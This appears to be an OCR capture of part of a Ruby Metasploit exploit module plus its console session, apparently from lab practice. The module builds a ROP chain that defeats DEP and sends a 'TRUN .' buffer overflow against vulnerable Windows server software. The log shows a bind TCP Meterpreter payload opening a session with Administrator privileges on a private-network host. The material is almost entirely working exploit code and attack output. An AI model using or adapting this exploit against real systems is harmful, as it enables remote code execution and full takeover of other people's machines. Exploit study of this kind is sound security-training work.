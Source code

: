 ```ruby=
      0x7c96d192,  # XCHG EAX,ESI # RETN [ntdll.dll]
      0x77bef671,  # POP EBP # RETN [msvcrt.dll]
      0x625011af,  # & jmp esp [essfunc.dll]
      0x77e9ad22,  # POP EAX # RETN [RPCRT4.dll]
      0xfffffdff,  # Value to negate, will become 0x00000201
      0x77e6c784,  # NEG EAX # RETN [RPCRT4.dll]
      0x77dc560a,  # XCHG EAX,EBX # RETN [ADVAPI32.dll]
      0x7c87fbcb,  # POP EAX # RETN [kernel32.dll]
      0xffffffc0,  # Value to negate, will become 0x00000040
      0x77d4493b,  # NEG EAX # RETN [USER32.dll]
      0x77c28fbc,  # XCHG EAX,EDX # RETN [msvcrt.dll]
      0x77bef7c9,  # POP ECX # RETN [msvcrt.dll]
      0x7c99bac1,  # &Writable location [ntdll.dll]
      0x719e4870,  # POP EDI # RETN [mswsock.dll]
      0x77e6d224,  # RETN (ROP NOP) [RPCRT4.dll]
      0x77e8c50c,  # POP EAX # RETN [RPCRT4.dll]
      0x90909090,  # nop
      0x77de60c7,  # PUSHAD # RETN [ADVAPI32.dll]
    ].flatten.pack("V*")

    return rop_gadgets
  end


  def exploit
    connect
    rop_chain = create_rop_chain()
    junk = make_nops(target['Offset'])
    buf = "TRUN ." + junk + rop_chain + make_nops(16) + payload.encoded + '\r\n'
    sock.put(buf)
    handler
    disconnect
  end
end
```

```
msf5 > use exploit/windows/yanhan/rop_attack
msf5 exploit(windows/yanhan/rop_attack) > set rhosts 192.168.31.114
rhosts => 192.168.31.114
msf5 exploit(windows/yanhan/rop_attack) > set rport 1000
rport => 1000
msf5 exploit(windows/yanhan/rop_attack) > exploit

[*] Started reverse TCP handler on 192.168.31.84:4444
[*] Exploit completed, but no session was created.
msf5 exploit(windows/yanhan/rop_attack) > set payload windows/meterpreter/bind_tcp
payload => windows/meterpreter/bind_tcp
msf5 exploit(windows/yanhan/rop_attack) > exploit

[*] Started bind TCP handler against 192.168.31.114:4444
[*] Exploit completed, but no session was created.
msf5 exploit(windows/yanhan/rop_attack) > exploit

[*] Started bind TCP handler against 192.168.31.114:4444
[*] Sending stage (179779 bytes) to 192.168.31.114
[*] Meterpreter session 1 opened (192.168.31.84:44537 -> 192.168.31.114:4444) at 2019-07-10 16:51:07 +0800

meterpreter > getuid
Server username: WHU-3E3EECEBFD1\Administrator
```
